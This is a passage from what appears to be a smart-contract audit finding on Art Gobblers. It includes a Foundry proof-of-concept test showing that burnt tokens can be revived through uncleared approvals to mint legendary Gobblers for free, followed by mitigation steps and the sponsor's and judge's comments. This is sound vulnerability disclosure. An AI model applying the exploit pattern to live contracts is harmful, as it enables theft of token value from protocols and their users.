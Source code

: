     	for (uint256 curId = 1; curId <= cost; curId++) {
    		ids.push(curId);
    		assertEq(gobblers.ownerOf(curId), users[0]);
    	}
    
    	// do token approvals for vulnerability exploit
    	vm.startPrank(user);
    	for (uint256 i = 0; i < ids.length; i++) {
    		gobblers.approve(user, ids[i]);
    	}
    	vm.stopPrank();
    
    	// mint legendary
    	vm.prank(user);
    	uint256 mintedLegendaryId = gobblers.mintLegendaryGobbler(ids);
    
    	// confirm user owns legendary
    	assertEq(gobblers.ownerOf(mintedLegendaryId), user);
    
    	// show that contract initially thinks tokens are burnt
    	for (uint256 i = 0; i < ids.length; i++) {
    		hevm.expectRevert("NOT_MINTED");
    		gobblers.ownerOf(ids[i]);
    	}
    
    	// "revive" burnt tokens by transferring from zero address with approval
    	// which was not reset
    	vm.startPrank(user);
    	for (uint256 i = 0; i < ids.length; i++) {
    		gobblers.transferFrom(address(0), user, ids[i]);
    		assertEq(gobblers.ownerOf(ids[i]), user);
    	}
    	vm.stopPrank();
    }

### [](#recommended-mitigation-steps)Recommended Mitigation Steps

Ensure token ownership is reset in the for-loop of the `mintLegendaryGobbler` method. Alternatively to reduce the gas cost of `mintLegendaryGobbler` by saving on the approval deletion, simply check the `from` address in `transferFrom`, revert if it’s `address(0)`. Note that the latter version would also require changing the `getApproved` view method such that it checks the owner of the token and returns the zero-address if the owner is zero, otherwise the `getApproved` method would return the old owner after the underlying Gobbler was sacrificed.

**[FrankieIsLost (Art Gobblers) confirmed and commented](https://github.com/code-423n4/2022-09-artgobblers-findings/issues/219#issuecomment-1268956379):**

> Great find. Agree with severity. Here is the fix: [https://github.com/artgobblers/art-gobblers/pull/151](https://github.com/artgobblers/art-gobblers/pull/151)

**[Alex the Entreprenerd (judge) commented](https://github.com/code-423n4/2022-09-artgobblers-findings/issues/219#issuecomment-1272417972):**

> The Warden has shown how, because the approvals field was not cleared, an owner could “bring back a Gobbler from the dead”, allowing them to mint legendary Gobblers for free.
> 
> The sponsor has mitigated the issue by clearing the `getApproved` field.
> 
> Because this finding breaks protocol invariants, and would allow to sidestep the cost to mint a Legendary Gobbler, I agree with High Severity.
